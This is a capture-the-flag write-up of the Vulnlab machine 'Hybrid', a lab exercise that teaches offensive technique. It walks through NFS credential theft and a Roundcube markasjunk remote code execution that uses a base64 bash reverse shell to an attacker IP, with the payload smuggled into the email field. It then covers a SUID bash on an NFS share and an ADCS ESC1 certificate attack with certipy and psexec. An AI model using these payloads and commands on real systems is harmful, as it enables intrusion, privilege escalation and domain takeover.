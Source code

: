 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/hybrid/logo.png
date: 2024-06-01 09:45:47+07:00
modified: 2024-06-01 09:45:47+07:00
categories: Vulnlab
tags:
- Hybrid
- VulnLab
- chain
- ADCS
- certipy
- NFS
- roundcube
- SUID
- no-root-squash
- Writeup
title: Hybrid
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/vulnbanner.png)


Hybrid is an &quot;easy&quot; difficulty machine, Where exploited a Roundcube vulnerability and leveraged NFS, SUID misconfiguration, and certificate services to escalate privileges and compromise the domain.

### Difficulty:

`Easy`


# Enumeration

I start with 2 IP addresses and nmap shows us the open ports.

```bash
PORT      STATE    SERVICE      
22/tcp    open     ssh
25/tcp    open     smtp
80/tcp    open     http
110/tcp   open     pop3
111/tcp   open     rpcbind      
143/tcp   open     imap
587/tcp   open     submission   
993/tcp   open     imaps        
995/tcp   open     pop3s        
1102/tcp  filtered adobeserver-1
2049/tcp  open     nfs
3024/tcp  filtered nds_sso
```

```bash
PORT      STATE SERVICE
53/tcp    open  domain
135/tcp   open  msrpc 
139/tcp   open  netbios-ssn     
445/tcp   open  microsoft-ds    
464/tcp   open  kpasswd5        
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
```

### Mail01.hybrid.vl

The NFS server is running on the mail server.

![](https://photos.squarezero.dev/file/abir-images/hybrid/01.png)

Mount NFS drive to check out important files.

`mkdir target-NFS`

`sudo mount -t nfs 10.10.209.54:/ ./target-NFS -o nolock`

![](https://photos.squarezero.dev/file/abir-images/hybrid/1.png)

I found credentials inside the tar file.

![](https://photos.squarezero.dev/file/abir-images/hybrid/2.png)

Inside I find 2 credentials

```bash
admin@hybrid.vl:{plain}Duc<snip>   
peter.turner@hybrid.vl:{plain}Pet<snip>
```

Login to the mail server using Admin credentials

![](https://photos.squarezero.dev/file/abir-images/hybrid/3.png)

The version of Roundcube is 1.6.1 and after some research, I found out it's vulnerable to code execution via Markasjunk plugin.

[SSD Advisory -  Roundcube markasjunk RCE - SSD Secure Disclosure](https://ssd-disclosure.com/ssd-advisory-roundcube-markasjunk-rce/)

![](https://photos.squarezero.dev/file/abir-images/hybrid/4.png)



I need to bypass the filter to have code execution. One easy way to do it is to encode the reverse shell into base64 decode it and run it with bash. I can try this concept in our local machine first.

`echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjIuMTEwLzEyMzQgMD4mMSc= | base64 -d | bash`

![](https://photos.squarezero.dev/file/abir-images/hybrid/5.png)

![](https://photos.squarezero.dev/file/abir-images/hybrid/6.png)



Under settings, I can change the email into our payload.

`admin%26echo${IFS}YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC44LjIuMTEwLzEyMzQgMD4mMQoK|base64${IFS}-d|bash%26%40hybrid.vl`



![](https://photos.squarezero.dev/file/abir-images/hybrid/7.png)

Intercept the request and url-encode the payload.

Note: Char Limit of 128 Also if the base64 string has ‘+’ it needs to be url-encoded.

![](https://photos.squarezero.dev/file/abir-images/hybrid/8.png)

Send an email to Peter.

![](https://photos.squarezero.dev/file/abir-images/hybrid/9.png)

Mark it as junk.

![](https://photos.squarezero.dev/file/abir-images/hybrid/10.png)

And I got a call back to my machine.

![](https://photos.squarezero.dev/file/abir-images/hybrid/11.png)

### www-date to Peter

I looked for a bit and couldn't find anything interesting. But I have both read-write options on the NFS drive.

![](https://photos.squarezero.dev/file/abir-images/hybrid/12.png)

First, I need to check Peter's UID and then I can create a user in our local attacker machine with the same UID as Peter.

```bash
www-data@mail01:~/roundcube$ id peter.turner@hybrid.vl
id peter.turner@hybrid.vl
uid=902601108(peter.turner@hybrid.vl) gid=902600513(domain users@hybrid.vl) groups=902600513(domain users@hybrid.vl),902601104(hybridusers@hybrid.vl)
```

Now using this UID I created a user in my machine.

```bash
sudo adduser nfs_user     
sudo sed -i -e 's/1002/902601108/g' /etc/passwd
```

Next from www-data user, I transfer the bash file to the NFS drive and then move then using our new user I change the SUID of the bash and put it back to the NFS drive.

```bash
cp bash /tmp/        
share su nfs_user 
/target-NFS/opt/share$ cp /tmp/bash .
/target-NFS/opt/share$ chmod +xs bash
```

![](https://photos.squarezero.dev/file/abir-images/hybrid/13.png)

Now I can run commands as Peter.

![](https://photos.squarezero.dev/file/abir-images/hybrid/14.png)

`/opt/share/bash -p`

![](https://photos.squarezero.dev/file/abir-images/hybrid/15.png)

### Peter to Root

Inside Peter's home folder, I found a Keepass file and after transferring the file to my machine, I can log in using the password I found in the NFS drive previously.

![](https://photos.squarezero.dev/file/abir-images/hybrid/16.png)



With the new password, I can ssh into the machine as Peter And as Peter can run anything with sudo I can just use `sudo su` to log in as root.

![](https://photos.squarezero.dev/file/abir-images/hybrid/17.png)

### DC01.hybrid.vl

Peter's credentials are valid in the domain.

![](https://photos.squarezero.dev/file/abir-images/hybrid/18.png)

After running Bloodhound didn't find anything interesting.

`bloodhound-python -u 'peter.turner' -p 'b0cw<snip>' -ns 10.10.246.165 -d hybrid.vl -c all --auth-method auto --zip`

![](https://photos.squarezero.dev/file/abir-images/hybrid/19.png)

Next, I looked for certificate vulnerability using Certipy and it's vulnerable to ESC1

`certipy find -u 'peter.turner' -p 'b0cw<snip>' -dc-ip 10.10.134.197 -enabled -vulnerable -stdout`

![](https://photos.squarezero.dev/file/abir-images/hybrid/20.png)

As only domain joined computer can request I got the machine hash of the mail server.

https://github.com/sosdave/KeyTabExtract

**`/etc/krb5/krb5.`**

![](https://photos.squarezero.dev/file/abir-images/hybrid/21.png)

Now I can request pfx with the right length of RSA

```bash
certipy req -u 'mail01$'@hybrid.vl -hashes '0f916c52<snip>' -dc-ip 10.10.246.165 -ca hybrid-DC01-CA -template HybridComputers -upn ADMINISTRATOR@HYBRID.VL -key-size 4600
```

![](https://photos.squarezero.dev/file/abir-images/hybrid/22.png)

![](https://photos.squarezero.dev/file/abir-images/hybrid/23.png)

60701e8543c9f6db1a2af3217386d3dc

Using the PFX I can request for administrator hash and then log in to get the final flag. 

![](https://photos.squarezero.dev/file/abir-images/hybrid/025.png)

![](https://photos.squarezero.dev/file/abir-images/hybrid/25.png)

### Bonus.

I can also log in using the ticket.

`KRB5CCNAME=administrator.ccache  psexec.py -k -no-pass dc01.hybrid.vl`

![](https://photos.squarezero.dev/file/abir-images/hybrid/26.png)